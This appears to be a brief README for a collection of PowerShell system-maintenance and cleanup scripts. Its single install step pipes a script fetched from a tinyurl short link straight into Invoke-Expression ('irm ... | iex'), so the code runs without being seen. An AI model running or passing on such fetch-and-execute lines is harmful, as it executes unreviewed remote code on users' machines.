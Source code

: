 # tools
A collection of PowerShell scripts for system maintenance and cleanup.

type the following line in powershell: 

irm tinyurl.com/chaco-tools |iex

